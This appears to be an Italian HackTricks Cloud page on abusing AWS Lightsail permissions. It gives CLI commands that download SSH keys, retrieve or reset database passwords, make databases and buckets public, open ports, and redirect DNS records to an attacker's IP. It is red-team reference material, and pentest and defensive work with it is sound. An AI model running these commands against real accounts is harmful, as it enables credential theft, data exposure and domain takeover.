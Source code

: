 # AWS - Lightsail Privesc

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PACCHETTI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Lightsail

Per ulteriori informazioni su Lightsail, controlla:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
È importante notare che Lightsail **non utilizza ruoli IAM appartenenti all'utente** ma a un account gestito da AWS, quindi non è possibile sfruttare questo servizio per l'escalation dei privilegi. Tuttavia, **dati sensibili** come codice, chiavi API e informazioni sul database potrebbero essere trovati in questo servizio.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Questa autorizzazione ti permetterà di ottenere le chiavi SSH per accedere alle istanze:
```
aws lightsail download-default-key-pair
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno delle istanze.

### `lightsail:GetInstanceAccessDetails`

Questa autorizzazione ti permetterà di generare chiavi SSH per accedere alle istanze:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno delle istanze.

### `lightsail:CreateBucketAccessKey`

Questa autorizzazione ti permetterà di ottenere una chiave per accedere al bucket:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno del bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Questa autorizzazione ti permetterà di ottenere le credenziali per accedere al database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Impatto potenziale:** Trovare informazioni sensibili all'interno del database.

### `lightsail:UpdateRelationalDatabase`

Questa autorizzazione ti permetterà di cambiare la password per accedere al database:

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Se il database non è pubblico, è possibile renderlo pubblico con queste autorizzazioni utilizzando

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Potenziale impatto:** Trovare informazioni sensibili all'interno del database.

### `lightsail:OpenInstancePublicPorts`

Questa autorizzazione consente di aprire porte verso Internet.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Impatto potenziale:** Accesso alle porte sensibili.

### `lightsail:PutInstancePublicPorts`

Questa autorizzazione consente di aprire porte verso Internet. Nota che la chiamata chiuderà qualsiasi porta aperta non specificata al suo interno.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Impatto potenziale:** Accesso alle porte sensibili.

### `lightsail:SetResourceAccessForBucket`

Questa autorizzazione consente di dare a un'istanza accesso a un bucket senza alcuna credenziale aggiuntiva

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Impatto potenziale:** Possibile nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateBucket`

Con questa autorizzazione, un attaccante potrebbe concedere al proprio account AWS l'accesso in lettura ai bucket o addirittura rendere i bucket pubblici per tutti:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Impatto potenziale:** Possibile nuovo accesso a bucket con informazioni sensibili.

### `lightsail:UpdateContainerService`

Con queste autorizzazioni, un attaccante potrebbe concedere l'accesso a ECR privati dal servizio dei contenitori.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Potenziale Impatto:** Ottenere informazioni sensibili da ECR privato

### `lightsail:CreateDomainEntry`

Un attaccante con questa autorizzazione potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (takeover del sottodominio), o creare un record SPF che gli permetta di falsificare email dal dominio, o addirittura impostare il dominio principale al proprio indirizzo IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenziale Impatto:** Assumere il controllo di un dominio

### `lightsail:UpdateDomainEntry`

Un attaccante con questa autorizzazione potrebbe creare un sottodominio e puntarlo al proprio indirizzo IP (takeover del sottodominio), o creare un record SPF che gli permetta di falsificare email dal dominio, o addirittura impostare l'indirizzo IP dell'attaccante come indirizzo IP principale del dominio.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Potenziale Impatto:** Assumere il controllo di un dominio

<details>

<summary><strong>Impara l'hacking di AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata su HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale di PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT**](https://opensea.io/collection/the-peass-family) esclusivi
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo Telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai repository di** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) su GitHub.

</details>
